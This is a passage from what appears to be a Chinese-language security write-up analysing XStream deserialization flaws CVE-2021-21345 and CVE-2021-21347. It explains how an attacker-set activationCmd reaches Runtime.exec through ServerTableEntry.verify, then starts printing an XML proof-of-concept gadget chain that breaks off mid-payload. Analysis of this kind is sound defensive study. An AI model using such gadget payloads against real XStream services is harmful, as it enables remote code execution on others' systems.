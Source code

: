```
```

可以看到21345的利用链较之21344的利用链来说变化不大，唯一的不同点在于执行代码的位置不再使用JdbcRowSetImpl去远程加载恶意类来到本地执行恶意代码，而是使用`com.sun.corba.se.impl.activation.ServerTableEntry`类直接在本地执行恶意代码，从利用的复杂度上来和21344做比较的话无疑是简单的不少，既然整个利用链中变化的只有这一处，那就单分析这个类就可以了，将断点直接打在ServerTableEntry类的verify方法上。

![](_assets/1617677141000-16.png-w331s.png)

这里直接将activationCmd属性中的值作为参数调用Runtime.exec来进行执行，而activationCmd在序列化的数据中就已经被我们自定义了值。

![](_assets/1617677142000-17.png-w331s.png)

由于调用栈和CVE-2021-21344基本一样所以就不再重复粘贴的，至此CVE-2021-21345分析完毕

3\. CVE-2021-21347
------------------

首先先看下POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>Evil</string>
```